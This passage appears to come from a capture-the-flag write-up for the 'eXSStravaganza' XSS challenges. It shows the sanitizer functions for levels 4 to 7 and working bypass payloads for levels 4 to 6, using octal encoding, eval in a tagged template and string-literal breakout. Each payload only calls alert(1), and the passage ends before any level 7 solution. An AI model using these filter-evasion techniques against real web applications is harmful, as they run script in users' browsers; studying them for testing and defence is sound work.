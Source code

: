     function sanitize(input) {
        // uppercase! how r ya gonna call that alert?
        return input.toUpperCase();
    }

### The solution

As https://jsfuck.com teaches, we can write everything without using the alphabet. This however is a shorter variation that leverages octal encoding:

    <script>[]['\155\141\160']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164(1)')()</script>

## eXSStravaganza level 5
### The sanitizer

    function sanitize(input) {
        // no equals, no parentheses!
        return input.replace(/[=(]/g, '');
    }

### The solution

ES6 sugar!

    <script>eval.call`${'alert\0501\051'}`</script>

## eXSStravaganza level 6
### The sanitizer

    function sanitize(input) {
        // no symbols whatsoever! good luck!
        const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
        return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
    }

### The solution

This payload does not trigger syntax errors. It only triggers a runtime error, but after our code gets executed:

    "(alert(1))in"

## eXSStravaganza level 7
### The sanitizer

    function sanitize(input) {
        // no tags, no comments, no string escapes and no new lines
        const sanitized = input.replace(/[</'\r\n]/g, '');
        return "  \x3Cscript\x3E\n// the input is '" + sanitized + "'\n  \x3C/script\x3E";
    }
